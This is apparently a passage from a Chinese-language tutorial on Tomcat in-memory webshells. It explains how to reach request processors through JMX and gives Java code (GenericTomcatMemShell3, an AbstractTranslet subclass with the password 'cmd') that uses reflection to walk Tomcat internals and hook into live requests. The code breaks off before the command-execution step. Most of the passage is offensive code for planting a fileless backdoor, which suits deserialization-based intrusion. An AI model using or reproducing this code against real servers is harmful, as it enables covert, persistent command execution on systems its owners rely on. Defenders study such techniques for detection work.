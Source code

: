 tomcat7,8获取这条链的方式大同小异，变化之处在于`name="http-bio-8888",type=GlobalRequestProcessor`，其中8888是tomcat服务端端口，在tomcat8里面bio变为nio。可以用`http*`通配一下

获取到processors后仍然需要for循环，因为主机里不止一条RequestInfo。

```java
package org.example.tomcatmemshell.servlet;

import com.sun.jmx.mbeanserver.NamedObject;
import com.sun.jmx.mbeanserver.Repository;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.tomcat.util.modeler.Registry;

import javax.management.MBeanServer;
import javax.management.ObjectName;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Iterator;
import java.util.Set;

//Tomcat 7,8,9 通用
public class GenericTomcatMemShell3 extends AbstractTranslet {
    static {
        try {
            String pass = "cmd";
            MBeanServer mBeanServer = Registry.getRegistry(null, null).getMBeanServer();
            Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
            field.setAccessible(true);
            Object mbsInterceptor = field.get(mBeanServer);

            field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
            field.setAccessible(true);
            Repository repository = (Repository) field.get(mbsInterceptor);
            Set<NamedObject> set = repository.query(new ObjectName("*:type=GlobalRequestProcessor,name=\"http*\""), null);

            Iterator<NamedObject> it = set.iterator();
            while (it.hasNext()) {
                NamedObject namedObject = it.next();
                field = Class.forName("com.sun.jmx.mbeanserver.NamedObject").getDeclaredField("name");
                field.setAccessible(true);

                field = Class.forName("com.sun.jmx.mbeanserver.NamedObject").getDeclaredField("object");
                field.setAccessible(true);
                Object obj = field.get(namedObject);

                field = Class.forName("org.apache.tomcat.util.modeler.BaseModelMBean").getDeclaredField("resource");
                field.setAccessible(true);
                Object resource = field.get(obj);

                field = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                field.setAccessible(true);
                ArrayList processors = (ArrayList) field.get(resource);

                field = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
```